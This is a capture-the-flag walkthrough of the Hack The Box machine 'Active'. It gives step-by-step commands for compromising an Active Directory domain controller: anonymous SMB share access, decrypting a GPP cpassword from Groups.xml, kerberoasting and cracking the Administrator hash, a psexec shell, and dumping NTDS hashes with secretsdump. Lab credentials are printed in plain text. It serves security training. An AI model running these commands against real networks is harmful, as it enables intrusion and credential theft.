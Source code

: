 ```yaml
---
title: "[EASY] HTB-Active"
draft: false
tags:
  - htb
  - windows
  - active-directory
  - gpp
  - kerberoasting
  - psexec
---
```

## Information Gathering
### Rustscan
Based on the ports open, it is obvious this machine is Active Directory machine:

```bash
┌──(yoon㉿kali)-[~/Documents/htb/active]
└─$ sudo rustscan --addresses 10.10.10.100 --range 1-65535
.----. .-. .-. .----..---. .----. .---. .--. .-. .-.
| {} }| { } |{ {__ {_ _}{ {__ / ___} / {} \ | `| |
| .-. \| {_} |.-._} } | | .-._} }\ }/ /\ \| |\ |
`-' `-'`-----'`----' `-' `----' `---' `-' `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy :
: https://github.com/RustScan/RustScan :
--------------------------------------
😵 https://admin.tryhackme.com
[~] The config file is expected to be at "/root/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'.
<snip>
Host is up, received echo-reply ttl 127 (0.35s latency).
Scanned at 2024-03-18 10:07:11 EDT for 6s

PORT STATE SERVICE REASON
88/tcp open kerberos-sec syn-ack ttl 127
135/tcp open msrpc syn-ack ttl 127
139/tcp filtered netbios-ssn no-response
389/tcp open ldap syn-ack ttl 127
593/tcp open http-rpc-epmap syn-ack ttl 127
636/tcp open ldapssl syn-ack ttl 127
9389/tcp open adws syn-ack ttl 127
47001/tcp open winrm syn-ack ttl 127
49152/tcp open unknown syn-ack ttl 127
49154/tcp open unknown syn-ack ttl 127
49155/tcp open unknown syn-ack ttl 127
49157/tcp open unknown syn-ack ttl 127
49158/tcp open unknown syn-ack ttl 127
49169/tcp open unknown syn-ack ttl 127
49182/tcp open unknown syn-ack ttl 127
  
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 5.87 seconds
Raw packets sent: 32 (1.384KB) | Rcvd: 16 (688B)
```
  

## Enumeration

### RPC - TCP 135
I was able to signin to RPC as null user but all the access was denied -> Dead End. 

`rpcclient -U "" -N 10.10.10.100`

![](https://i.imgur.com/0atiqxW.png)


### LDAP - TCP 389/3268
I first queried for base naming contexts: **DC=active,DC=htb**

`ldapsearch -H ldap://10.10.10.100 -x -s base namingcontexts`

![](https://i.imgur.com/XLFxpvF.png)

I tried on null sessions but it required authentication -> Dead End.

`ldapsearch -H ldap://10.10.10.100 -x -b "DC=active,DC=htb"`

![](https://i.imgur.com/tsXGXCt.png)


### SMB - TCP 445

Running crackmapexec with SMB, I can confirm the domain name: **active.htb**:


`crackmapexec smb 10.10.10.100`

![](https://i.imgur.com/GnnGjk9.png)


Using **smbclient**, I was able to list out shares without any creds.
  
Among all the shares, share **Replication** and **Users** seemed interesting to me:

`smbclient -N -L //10.10.10.100`

![](https://i.imgur.com/81iDAHc.png)


  
I tried accessing **Users** share, but access was denied: 

`smbclient -N //10.10.10.100/Users`

![](https://i.imgur.com/YXKc4Su.png)

## Replication Share - SMB
Luckily, **Replication** share was accessible: 

`smbclient -N //10.10.10.100/Replication`

![](https://i.imgur.com/ANbV2SB.png)


Recursively downloaded entire acitve.htb directory:

```bash
smb: \> mask ""
smb: \> lcd .
smb: \> prompt OFF
smb: \> recurse ON
smb: \> mget *
```

Now enumerating the share on my local kali machine, I discovered **Groups.xml** file which seemed to have exposed username and encrypted password for it:
  
**Username**: SVC_TGS
**cpassword**: edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ


`grep -ir 'password' active.htb`

![](https://i.imgur.com/qKfj3Cz.png)


## GPP Password Cracking

Googling a bit about what cpassword, I learned that it is usually used on Active Directory environment and it has weak encryption:

>A cpassword is used for setting passwords from the Group Policy Preferences. Cpasswords are encrypted using a weak encryption algorithm, which can be easily decrypted and used for lateral movement.

SImply running **gpp-decrypt** with the found cpassword, I was able to decrypt the hash:
  
**SVC_TGS**:**GPPstillStandingStrong2k18**

`gpp-decrypt hash`

![](https://i.imgur.com/vIROBEc.png)
### Checking Access

Checking what access this user got with crackmapexec, it seemed that I'd be able to access more shares with this user credentials:

`crackmapexec smb 10.10.10.100 -u SVC_TGS -p 'GPPstillStandingStrong2k18'`

![](https://i.imgur.com/KwavNlT.png)

Signing into **Users** share, I have access to user.txt

`smbclient //10.10.10.100/Users -U SVC_TGS%GPPstillStandingStrong2k18`

![](https://i.imgur.com/xH4JGZh.png)

I wanted better shell so I tried psexec but it wouldn't work in this case since SVC_TGS is not administrator user.
  
## Kerberoasting
Now with the credentials for user **SVC_TGS**, I tried kerberoasting, which gave me hash for user **Administrator**
`GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip dc.active.htb -request`

![](https://i.imgur.com/4waHocL.png)


### Hash cracking

I moved the found hash to **hashcat** and cracked it: **Ticketmaster1968**

`hashcat -m 13100 hash rockyou.txt`

![](https://i.imgur.com/czlVuiI.png)


### SMB as Administrator
  
Using the creds found above, I can now access Administrator directories through smb:

`smbclient //10.10.10.100/Users -U Administrator%Ticketmaster1968`

![](https://i.imgur.com/S7CHG7D.png)
 
  
## psexec shell as Administrator
Since I always pursue shell connection, I can **psexec** as Administrator as well:

`impacket-psexec active.htb/Administrator:'Ticketmaster1968'@10.10.10.100`

![](https://i.imgur.com/9Kw8Mwb.png)

## Beyond root
### Dumping NTDS.dit

I can also dump **NTDS.dit** using secretsdump.py:

`secretsdump.py active.htb/Administrator:'Ticketmaster1968'@10.10.10.100 -just-dc-ntlm`

![](https://i.imgur.com/GomR127.png)


  
  

